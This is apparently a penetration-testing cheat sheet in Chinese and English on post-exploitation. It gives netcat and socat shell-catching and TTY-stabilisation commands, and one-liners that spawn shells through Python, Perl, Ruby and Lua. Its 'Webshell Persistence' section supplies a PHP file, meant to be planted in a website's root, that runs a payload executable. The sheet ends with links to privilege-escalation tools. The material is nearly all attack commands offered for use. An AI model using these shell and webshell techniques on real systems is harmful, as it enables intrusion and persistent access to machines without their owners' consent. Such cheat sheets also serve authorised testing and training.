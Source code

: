 - 在成功弹出webshell后可以在网站的根目录建立一个php/axpx/...的文件用于执行.exe的payload
## Spawn a tty:
[HackTricks -- Full TTY](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)
### Netcat
```bash
rlwrap nc localhost 80 #不用在Linux上
rlwrap -r -f . nc <IP ADDRESS> <PORT>

#stabilisation
python3 -c 'import pty;pty.spawn("/bin/bash")' 
script /dev/null -qc /bin/bash

export TERM=xterm-256color #tmux-256color; screen 试试这个跟VPS是不是同步的
export SHELL=/bin/bash
alias ll='ls -lsaht --color=auto'
stty -a
stty raw -echo;fg
stty rows <> columns <>  #stty rows 36 columns 180
### Get back to Normal ###
reset
```
### Socat
 ```bash
socat file:`tty`,raw,echo=0 tcp-listen:12345
```
### Spawn
```bash
/bin/sh -i
/bin/bash -i
python -c 'import pty; pty.spawn("/bin/sh")'
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
```
### Webshell Persistence
在成功弹出webshell后可以在网站的根目录建立一个php/axpx/...的文件用于执行.exe的payload
```php
<?php
        $exec=system('C:\Users\rupert\slort.exe', $val);
?>
```
### [reverse-ssh](https://github.com/Fahrj/reverse-ssh)
```bash

```

## Priviledge Escalation Scripts:

Windows:

- Windows Exploit Suggester (Next-Generation): https://github.com/bitsadmin/wesng
- Sherlock: https://github.com/rasta-mouse/Sherlock
- Powersploit: https://github.com/PowerShellMafia/PowerSploit
- WinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS
- PrivescCheck: https://github.com/itm4n/PrivescCheck 

Linux:

- Linux Exploit Suggester 2: https://github.com/jondonas/linux-exploit-suggester-2
- LinEnum: https://github.com/rebootuser/LinEnum
- UnixPriv Checker: https://github.com/pentestmonkey/unix-privesc-check
- LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

## Other Resources: 

PowerSharpPack:

- https://github.com/S3cur3Th1sSh1t/PowerSharpPack 

Windows: 

- LOLBAS: https://lolbas-project.github.io/#
- Windows Privilege Escalation Fundmentals: https://www.fuzzysecurity.com/tutorials/16.html
- Hacktricks: https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation
- SharpSuite: https://github.com/FuzzySecurity/Sharp-Suite
- Watson: https://github.com/rasta-mouse/Watson
- WinPwn: https://github.com/S3cur3Th1sSh1t/WinPwn

Linux: 

- GTFOBins: https://gtfobins.github.io/
- g0tmi1k Linux Privilege Escalation: https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
- Hacktricks: https://book.hacktricks.xyz/linux-hardening/privilege-escalation